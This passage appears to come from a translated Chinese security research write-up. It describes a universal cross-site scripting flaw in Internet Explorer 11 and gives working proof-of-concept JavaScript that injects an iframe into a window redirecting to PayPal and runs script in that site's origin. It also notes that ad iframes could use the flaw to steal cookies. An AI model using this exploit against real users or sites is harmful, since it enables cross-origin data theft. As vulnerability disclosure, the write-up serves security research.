 [![](https://p1.ssl.qhimg.com/t0137f30011aa61169d.png)](https://p1.ssl.qhimg.com/t0137f30011aa61169d.png)

**[IE11概念证明 ]**



是! Opener正常工作。现在，不用考虑我们的域，我们都可以访问顶级文档。我们的iframe可以在另一个IFRAME内部或深度嵌套在不同的域的内部框架中，但是它一直能够访问顶部。 

所以，我们有一个正常工作的UXSS，但它仍然有一个问题：它需要加载到一个iframe内，我不认为任何有针对性的网站会如此慷慨的在他们的iframe中渲染我们的iframe，对吧？但想想现在运行的所有横幅广告：它们在iframe中呈现，并且他们可以访问顶部！这意味着Facebook广告，Yahoo!广告和在iframe中运行的任何不受信任的内容都可以访问主页面。如果我们在Facebook广告,就可以发布内容，访问我们的联系人和Cookie,没有任何限制。

我们应该进一步找到一种方法来获得网站的cookie。我们如何在任意非合作网站上做到这一点呢？我们可以在没有iframe的网站上运行吗？许多解决方案在我的心中，但第一和最简单的就是：[重定向] + [线程块] + [注入]。该技术是超级容易。

<br>

**注入内容无处不在**



有一种方式可以在任何WINDOW/ IFRAME注入HTML /SCRIPT，而不用考虑它的域,在它有机会加载之前。例如，假设我们打开一个带有服务器重定向到Paypal的新窗口。在重定向发生之前，我们仍然可以访问窗口，但一旦重定向加载新的URL，我们将无法再访问了，对吗？事实上，当重定向发生时，IE在渲染新内容之前破坏窗口中的每个元素。

但是，如果我们在页面中注入一个元素，在重定向之前会发生什么？更多的是，如果注入后,我们阻塞线程,而不给IE机去破坏对象，但是让重定向执行,这又会发生什么呢？新的网页将保留旧的（注入）内容，因为IE无法删除它。

在这种情况下，我们将使用alert阻塞线程，但是还有其他方法来实现同样的事情。让我们回顾一下在编码之前我们需要做什么：

1. 打开一个重定向到Paypal的新窗口。

2. 在重定向发生之前，注入一个iframe。

3. 重定向发生后，从iframe中创建ActiveXObject。

4. 砰!就是这样。现在ActiveXObject具有与主窗口相同的域。

这里是工作代码。



```
w = window.open("redir.php?URL=https://www.paypal.com");
 
 // Create and inject an iframe in the target window
 ifr = w.document.createElement('iframe');
 w.document.appendChild(ifr);
 // Initialize the iframe
 w[0].document.open();
 w[0].document.close();
 // Pass a reference to the top window
 // So the iframe can access even after the redirect.
 w[0]._top = w;
 // Finally, once Paypal is loaded (or loading, same thing) we create the
 // ActiveXObject within the injected iframe.
 w[0].setTimeout('alert("[ Thread Blocked to prevent iFrame destruction ]\n\nClose this alert once the address bar changes to the target site.");' +
                             'doc = new ActiveXObject("htmlFile");' +
                             'doc.Script.opener = _top;' +
                             'doc.Script.setTimeout("opener.location = 'javascript:alert(document.all[0].outerHTML)'");');
```

**[ 概念IE11证明 ]**

[![](https://p0.ssl.qhimg.com/t01efc53403512ce673.png)](https://p0.ssl.qhimg.com/t01efc53403512ce673.png)

不要停在这里。继续使用ActiveXObject，因为它充满了等待被发现的东西。你能让这个PoC更加简洁，使用更少的代码吗？你能建立一个线程阻塞而没有警报吗？祝你好运！



<br style="text-align: left">
